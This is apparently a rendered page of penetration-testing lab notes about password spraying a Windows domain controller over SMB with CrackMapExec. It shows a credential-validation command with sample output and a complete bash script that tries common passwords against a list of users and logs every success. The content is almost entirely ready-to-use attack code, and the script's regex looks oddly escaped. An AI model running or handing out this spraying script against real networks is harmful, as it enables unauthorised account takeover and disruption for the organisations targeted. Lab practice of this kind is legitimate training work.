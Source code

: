 ### ✅ **Credential Validation**
```bash
# Validate discovered credentials
crackmapexec smb 172.16.5.5 -u avazquez -p Password123

# Expected output:
# SMB         172.16.5.5      445    ACADEMY-EA-DC01  [*] Windows 10.0 Build 17763 x64 (name:ACADEMY-EA-DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
# SMB         172.16.5.5      445    ACADEMY-EA-DC01  [+] INLANEFREIGHT.LOCAL\avazquez:Password123
```

### 🔧 **Advanced CrackMapExec Script**
```bash
#!/bin/bash
# Advanced CrackMapExec spraying with comprehensive logging

DC_IP="172.16.5.5"
USERLIST="valid_users.txt"
PASSWORDS=("Welcome1" "Password123" "Company2024")
LOGFILE="cme_spray_$(date +%Y%m%d_%H%M%S).log"

echo "[$(date)] Starting CrackMapExec password spray" | tee -a $LOGFILE
echo "[$(date)] Target: $DC_IP" | tee -a $LOGFILE
echo "[$(date)] User list: $USERLIST ($(wc -l < $USERLIST) users)" | tee -a $LOGFILE

for password in "${PASSWORDS[@]}"; do
    echo "[$(date)] Testing password: $password" | tee -a $LOGFILE
    
    # Run spray and capture results
    result=$(crackmapexec smb $DC_IP -u $USERLIST -p "$password" 2>&1)
    
    # Log full results
    echo "$result" >> $LOGFILE
    
    # Extract and display successes
    successes=$(echo "$result" | grep '\[+\]')
    if [ -n "$successes" ]; then
        echo "[SUCCESS] Found valid credentials:" | tee -a $LOGFILE
        echo "$successes" | tee -a $LOGFILE
        
        # Validate each successful credential
        echo "$successes" | while read -r line; do
            user=$(echo "$line" | grep -oP '\\\\[^\\]+\\\\K[^:]+')
            echo "[$(date)] Validating $user:$password" | tee -a $LOGFILE
            crackmapexec smb $DC_IP -u "$user" -p "$password" | tee -a $LOGFILE
        done
    fi
    
    echo "[$(date)] Completed testing password: $password" | tee -a $LOGFILE
    echo "----------------------------------------" | tee -a $LOGFILE
done
```

---